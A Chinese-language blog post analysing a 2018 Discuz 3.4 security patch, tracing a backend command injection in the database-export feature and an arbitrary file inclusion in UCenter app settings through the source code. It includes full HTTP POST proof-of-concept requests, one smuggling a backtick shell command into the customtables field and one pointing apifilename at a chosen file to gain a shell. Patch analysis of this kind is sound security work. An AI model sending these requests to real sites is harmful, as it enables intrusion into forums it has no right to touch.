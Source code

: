 ```yaml
---
layout: post
title:  "discuz3.4补丁更新分析"
---
```

# discuz3.4补丁更新分析

* 5月29日discuz3.4源码提交了一次更新[https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14](https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14)，其中修复了一个后台任意文件包含漏洞和一个后台命令执行隐患。
下面从代码分析漏洞：

1.后台命令执行隐患(不具备利用条件)
----
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/命令执行1.jpg)
如图所示，问题出在后台数据库备份功能，增加了escapeshellarg()函数来过滤 $tablesstr参数。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/数据库备份.jpg)
/discuz3.4/upload/source/admincp/admincp_db.php
```php
if($operation == 'export') {

    $_SERVER['REQUEST_METHOD'] = 'POST';
    if(!submitcheck('exportsubmit')) {

        #省略

    }
    else {

        DB::query('SET SQL_QUOTE_SHOW_CREATE=0', 'SILENT');

        if(!$_GET['filename'] || !preg_match('/^[\w\_]+$/', $_GET['filename'])) {
            cpmsg('database_export_filename_invalid', '', 'error');
        }

        $time = dgmdate(TIMESTAMP);
        if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') {
            $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
        } elseif($_GET['type'] == 'custom') {
            $tables = array();
            if(empty($_GET['setup'])) {
                $tables = C::t('common_setting')->fetch('custombackup', true);
            } else {
                C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
                $tables = & $_GET['customtables'];####输入可控点
            }
            if( !is_array($tables) || empty($tables)) {
                cpmsg('database_export_custom_invalid', '', 'error');
            }
        }

        #省略

        if($_GET['method'] == 'multivol') {
            #省略
        }
        else {
            $tablesstr = '';
            foreach($tables as $table) {
                $tablesstr .= '"'.$table.'" ';
            }

            require DISCUZ_ROOT . './config/config_global.php';
            list($dbhost, $dbport) = explode(':', $dbhost);
            $query = DB::query("SHOW VARIABLES LIKE 'basedir'");
            list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);

            $dumpfile = addslashes(dirname(dirname(__FILE__))).'/'.$backupfilename.'.sql';
            @unlink($dumpfile);

            $mysqlbin = $mysql_base == '/' ? '' : addslashes($mysql_base).'bin/';

            @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);
```
$_GET['customtables'] >> $tables >> $tablesstr 
参数没有经过过滤、转义直接拼接到shell_exec中可被利用命令执行

利用构造POC：
```
POST /discuz3.4/upload/admin.php?action=db&operation=export&setup=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz-3.4/upload/admin.php?action=db&operation=export
Content-Type: application/x-www-form-urlencoded
Content-Length: 201
Cookie:  略
Connection: close
Upgrade-Insecure-Requests: 1

formhash=40d81b28&scrolltop=&anchor=&type=custom&customtables%5B%5D=`touch /tmp/1.txt`&method=test&sizelimit=2048&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=180608_gJjGo26K&exportsubmit=%E6%8F%90%E4%BA%A4
```
几个注意点：
/discuz3.4/upload/source/class/discuz/discuz_application.php 248
```php 
if($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST)) {
    $_GET = array_merge($_GET, $_POST);#合并键值，用post覆盖get
}
```
* $_GET包含了$_POST的值
* method不能为multivol

然而上面的命令并不能执行成功，当时我有点无语，因为下面的代码有问题，这块功能代码居然是不能用的。
```php
list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);
#DB::$drivertype不存在,根据代码意思应该是$db->drivertype或者DB::$db->drivertype
```
漏洞代码运行到这里的时候会运行不下去，因为DB::$drivertype这个参数根本没定义。
在/discuz3.4/upload/source/class/discuz/discuz_database.php里class discuz_database {} 不存在$drivertype。
为了复现漏洞，我在/discuz3.4/upload/source/class/discuz/discuz_database.php 添加了public static $drivertype;，然后再使用上面的POC成功执行了命令。

2.后台任意文件包含漏洞(ucenter应用管理权限)
----
漏洞存在多处，但是原因都是一样的，就是$apifilename参数未做过滤或转义导致任意文件包含，我选择其中一处分析。
/discuz3.4/upload/uc_server/model/note.php
```php
$apifilename = isset($app['apifilename']) && $app['apifilename'] ? $app['apifilename'] : 'uc.php';
        if($app['extra']['apppath'] &&  @include_once $app['extra']['apppath'].'./api/'.$apifilename) {
```
分析下$apifilename的值从哪里来

/discuz3.4/upload/uc_server/data/cache/apps.php >> /discuz3.4/upload/uc_server/model/base.php init_cache() >> $this->base->cache('apps') >> $app['apifilename']

apps.php的值如下图所示
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/apps.php.jpg)
可通过ucenter的应用管理进行控制
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-192102.jpg)
POC：
```php
POST /discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1&sid=bdb72eMi%2BnWQ0q9oCK46R%2BA80gB%2BQ4ZRCIiuPWiNu2FCVNQbKb%2F2FtI4XRDYgsU9VvGBY07LF2exdg
Content-Type: application/x-www-form-urlencoded
Content-Length: 405
Cookie: 略
Connection: close
Upgrade-Insecure-Requests: 1

sid=87c1Zk21dOZPwMBkwqz%2BmgKKVA%2FrhGZKGqu1CWAP63EzBMLJWaCtv9K1DPs%2B61zf7vEER6usLasOpQ&formhash=c98254e0423cf9af&type=DISCUZX&name=Discuz%21+Board&url=http%3A%2F%2Flocalhost%2Fdiscuz-3.4%2Fupload&extraurl=&ip=&authkey=SfU517M8n8u1scR1T255Gea6G909L2l338E6seAdP7xei3U0yag9J3gfm6iey66b&apppath=..%2F&viewprourl=&apifilename=../phpinfo.txt&tagtemplates=&tagfields=&synlogin=1&recvnote=1&submit=+%E6%8F%90+%E4%BA%A4+
```
* apppath=..%2F 如果不知道绝对路径，输入../会自动生成,这里只能填存在的路径且和./api/uc.php拼接文件存在，discuz3.4/upload/uc_server/control/admin/app.php的157行
* 伪协议也不能用，discuz3.4/upload/uc_server/control/admin/app.php的155行realpath()函数过滤。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/绝对路径.jpg)
* apifilename= 可以是上传的图片(不能是经过GB库处理的)、附件等，填入相对路径(discuz
前台不会返回上传文件路径，必须通过admin后台上传),这里phpinfo.txt是我创建在web根目录的测试文件。
* 更新的修复代码也很自信，apifilename参数限制了只能为php后缀的文件，我认为修复的不够保险，可以写死为uc.php。

POC的包发完以后，访问登陆页面、ucenter首页等多处都包含了指定的文件，达到getshell的目的。
![](https://github.com/white-cell/blog/raw/master/20180612-discuz3.4补丁更新分析/pic/Jietu20180612-191327.jpg)
